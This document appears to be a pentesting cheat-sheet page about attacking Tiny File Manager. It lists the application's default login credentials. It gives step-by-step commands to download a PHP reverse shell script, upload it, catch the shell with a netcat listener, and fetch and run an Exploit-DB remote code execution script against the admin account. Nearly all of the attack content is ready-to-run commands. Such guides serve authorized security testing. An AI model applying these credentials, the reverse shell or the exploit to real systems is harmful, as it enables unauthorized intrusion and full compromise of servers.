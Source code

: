 ```yaml
---
title: Tiny File Manager Pentesting
description: Tiny File Manager is a simple and small file manager with single php file.
tags:
    - Web
refs:
    - https://github.com/prasathmani/tinyfilemanager
date: 2022-12-22
draft: false
---
```


## Default Credentials

```txt
admin:admin@123
user:12345
```

<br />

## Reverse Shell

If we can login and access the dashboard of the Tiny File Manager, upload the reverse shell script and get a shell.  
First, download the reverse shell script.

```sh
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php -O shell.php
```

Update values of **“$ip”** and **“$port”** in the above script to our local ip and port for listener which will start.
Then upload the script to the arbitrary folder in the Tiny File Manager dashboard.

Now start netcat listener.

```sh
nc -lvnp 4444
```

Access the page with the uploaded script. e.g. "http://vulnerable.com/uploads/shell.php".  
We should get a target shell.

<br />

## Remote Code Execution (RCE) Version≤2.4.6

The payload can be downloaded from [Exploit-DB](https://www.exploit-db.com/exploits/50828)

```sh
wget https://www.exploit-db.com/raw/50828 -O exploit.sh
dos2unix exploit.sh
chmod +x exploit.sh
./exploit.sh http://vulnerable.com/index.php admin "admin@123"
```

If you got the “jq not found” error, install it and run again.

```sh
sudo apt install jq
```
